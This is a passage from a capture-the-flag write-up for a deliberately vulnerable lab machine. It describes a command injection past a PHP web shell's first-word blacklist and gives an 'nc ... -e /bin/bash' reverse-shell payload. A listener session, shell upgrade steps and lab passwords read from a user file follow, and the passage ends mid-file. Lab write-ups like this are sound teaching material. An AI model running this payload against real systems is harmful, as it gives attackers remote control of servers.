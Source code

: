 Analyzing the source code we see an array of commands not allowed, then the strpos() function returns a message if exists a semicolon in the string, if not the explode() function breaks the string into an array, then into the if statement checks only the first position of the array for bad commands, these restrictions allow the attacker execute system commands.

## Exploitation
### Command Injection

First we need set up a netcat listener, then execute the following netcat command to get a reverse shell.

`whoami&&nc 192.168.179.1 443 -e /bin/bash`

![](/assets/images/bob1/screenshot-5.png)

Then I update it for a full TTY shell.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.153] 32884
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
script -qc /bin/bash /dev/null
www-data@Milburg-High:/var/www/html$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:~$ stty raw -echo;fg
[1]  + continued  nc -vlnp 443

www-data@Milburg-High:/var/www/html$ export TERM=xterm-256color
www-data@Milburg-High:/var/www/html$ export SHELL=/bin/bash
www-data@Milburg-High:/var/www/html$ stty rows 39 columns 164
```

In elliot's home directory I found a file with contains his password **theadminisdumb** and that of james **Qwerty**.

```console
www-data@Milburg-High:/home/elliot$ cat theadminisdumb.txt 
The admin is dumb,
In fact everyone in the IT dept is pretty bad but I can’t blame all of them the newbies Sebastian and James are quite new to managing a server so I can forgive them for that password file they made on the server. But the admin now he’s quite something. Thinks he knows more than everyone else in the dept, he always yells at Sebastian and James now they do some dumb stuff but their new and this is just a high-school server who cares, the only people that would try and hack into this are script kiddies. His wallpaper policy also is redundant, why do we need custom wallpapers that doesn’t do anything. I have been suggesting time and time again to Bob ways we could improve the security since he “cares” about it so much but he just yells at me and says I don’t know what i’m doing. Sebastian has noticed and I gave him some tips on better securing his account, I can’t say the same for his friend James who doesn’t care and made his password: Qwerty. To be honest James isn’t the worst bob is his stupid web shell has issues and I keep telling him what he needs to patch but he doesn’t care about what I have to say. it’s only a matter of time before it’s broken into so because of this I have changed my password to

```